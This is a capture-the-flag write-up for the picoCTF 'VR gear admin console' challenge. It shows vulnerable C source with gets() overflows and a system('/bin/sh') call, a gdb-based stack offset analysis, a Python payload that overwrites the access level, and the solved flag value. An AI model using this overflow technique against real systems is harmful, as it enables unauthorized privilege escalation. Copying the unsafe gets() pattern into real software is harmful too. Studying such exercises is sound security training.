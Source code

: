 # Description
Here's the VR gear admin console. See if you can figure out a way to log in. The problem is found here: /problems/1444de144e0377e55e5c7fea042d7f01

# Hints
* What happens if you read in more characters than the length of the username buffer?
* You should look at an ascii table to see what character you need to choose.
* Numbers are stored in little-endian format, which means that the lowest byte of the number is first.
* "cat file - | vrgearconsole " will keep the pipe open for commands.

# Writeup
First, let's ssh to the picoctf server and navigate to the `/problems/1444de144e0377e55e5c7fea042d7f01` directory.

We have 3 files here:
* flag.txt - TXT files
* vrgearconsole - ELF Executable
* vrgearconsole.c - Source code

Nice! We have a source code file! Let's first execute the program, and then we will look at the source.

![image](https://i.imgur.com/YrCXxjy.png)

I see! You have to login, and then what? Let's look at source:

```C
#include <stdlib.h>
#include <stdio.h>

int login() {
    int accessLevel = 0xff;
    char username[16];
    char password[32];
    printf("Username (max 15 characters): ");
    gets(username);
    printf("Password (max 31 characters): ");
    gets(password);

    if (!strcmp(username, "admin") && !strcmp(password, "{{ create_long_password() }}")) {
        accessLevel = 2;
    } else if (!strcmp(username, "root") && !strcmp(password, "{{ create_long_password() }}")) {
        accessLevel = 0;
    } else if (!strcmp(username, "artist") && !strcmp(password, "my-password-is-secret")) {
        accessLevel = 0x80;
    }

    return accessLevel;
}

int main(int argc, char **argv) {
    setbuf(stdout, NULL);
    printf(
        "+----------------------------------------+\n"
        "|                                        |\n"
        "|                                        |\n"
        "|                                        |\n"
        "|                                        |\n"
        "|  Welcome to the VR gear admin console  |\n"
        "|                                        |\n"
        "|                                        |\n"
        "|                                        |\n"
        "|                                        |\n"
        "+----------------------------------------+\n"
        "|                                        |\n"
        "|      Your account is not recognized    |\n"
        "|                                        |\n"
        "+----------------------------------------+\n"
        "\n\n\n\n"
        "Please login to continue...\n\n\n"
    );
    int access = login();

    printf("Your access level is: 0x%08x\n", access);

    if (access >= 0xff || access <= 0) {
        printf("Login unsuccessful.\n");
        exit(10);
    } else if (access < 0x30) {
        printf("Admin access granted!\n");
        printf("The flag is in \"flag.txt\".\n");
        system("/bin/sh");
    } else {
        printf("Login successful.\n");
        printf("You do not have permission to access this resource.\n");
        exit(1);
    }
}

```

Hmm... So after you login, you get an access level. Interesting. Obviously, we do not know the password of admin to get an access level below `0x30` (admin access level). I have already tried using a buffer overflow to overwrite the return address, and it worked, but then gave a SEGFAULT, so let's try overwriting the access level.

Open the program in gdb and set a break point right before leaving the `login()` function.

![image](https://i.imgur.com/85hwc6l.png)

Now, I will run the program using the username **admin** and password **AAAAAAAA**, so we can calculate a padding in the stack, between the start of the password and the access level (which should be `0x000000ff`, as we saw when we tried running the program and failing to login as admin).

Let's run the program and stop at the break point, right before leaving `login()`.

![image](https://i.imgur.com/M4ZaLva.png)

Here's how the stack looks like now:

![image](https://i.imgur.com/FnPgNVD.png)

As we can see, from the beginning of the password (which is **AAAAAAAA** or `0x41414141 0x41414141`), we need 48 bytes of padding, and right after we can inject a wanted access level like `0x00000001`, which would give us admin privileges.

First, let's create a file in the `/tmp` directory, containing the string **admin** (so we can pass it to stdin when we run the program). I will name my file admin.

![image](https://i.imgur.com/laOLcpH.png)

Now, let's create a script that will generate the string we need to inject into the password field, which is 48 padding bytes (we will use `A`) and right after that, the access level (we will use `0x00000001`). So here's the code that will do this:

```python
import struct;
exploit = "A"*(12*4) + struct.pack("I", 0x00000001);
print(exploit);
```

Extremely simple! Running this program will give us the string we want to inject in the password field, so let's tunnel it to a file. We will use `/tmp/password`.

![image](https://i.imgur.com/rvItRcN.png)

Now, let's pass the **admin** and **password** file to the input of our program, and let's see if it correctly overwrites the access level. We will use cat:

```bash
cat /tmp/admin /tmp/password - | ./vrgearconsole
```

Note: We will use a `-` at the end of cat to keep input open for shell commands after we successfully exploit the program.

![image](https://i.imgur.com/NQOaLhJ.png)

It worked!

**FLAG**: `acdcf692a6209e618b97925c26084ea9`
